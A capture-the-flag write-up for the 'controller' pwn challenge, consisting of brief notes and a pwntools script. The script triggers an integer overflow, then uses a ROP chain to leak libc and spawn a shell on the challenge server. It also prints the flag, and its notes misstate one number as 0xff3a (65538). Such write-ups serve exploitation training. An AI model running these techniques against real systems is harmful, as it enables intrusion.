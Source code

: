 ```yaml
---
title: controller
date: 2021-04-23
categories: [pwn]
tags: [cyberapocalpyse2021]
toc: false
---
```


#### Notes:
- Binary has only NX enabled and full relro
- Buffer overflow exists in calculator() when return value of calc() is 0xff3a (65538)
- It seems we need a integer overflow to trigger a buffer overflow
- calc() allows us to calculate values using two signed integers

#### Plan:
- Trigger integer overflow by multiplying -65538 with -1 to get 65538
- Use this to get to the else statement in calculator() to do a buffer overflow and get a shell

#### calculator()

![Snippet of calculator()](/assets/img/cyberapoc/controller/calculator.png)

#### calc()

![Snippet of calc()](/assets/img/cyberapoc/controller/calc.png)


#### PoC:
```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 138.68.132.86 --port 31438 ./controller
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./controller')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '138.68.132.86'
port = int(args.PORT or 31438)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
b *0x4010fd
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

pop_rdi_ret = 0x4011d3
puts_got = 0x601fb0
puts_plt = 0x400630
ret = 0x400606
_start = 0x4006b0

payload = flat({
    40: p64(pop_rdi_ret),
    48: p64(puts_got),
    56: p64(puts_plt),
    64: p64(ret),
    72: p64(_start)
    })

def send_numbers():
    io.recvuntil('recources: ')
    io.sendline('-65338 -1')
    io.recvuntil('> ')
    io.sendline('3')

send_numbers()

io.recvuntil('> ')
io.sendline(payload)
io.recvuntil('ingored\n')
leak = int.from_bytes(io.recvline()[-7:-1], 'little')

print('Leak: ', hex(leak))

libc_base = leak - 0x080aa0

print('Libc base: ', hex(libc_base))

str_bin_sh = libc_base + 0x1b3e1a
system = libc_base + 0x04f550

send_numbers()

payload2 = flat({
    40: p64(pop_rdi_ret),
    48: p64(str_bin_sh),
    56: p64(ret),
    64: p64(system),
    72: p64(ret)
    })

io.recvuntil('> ')
io.sendline(payload2)

io.interactive()

#CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s}
```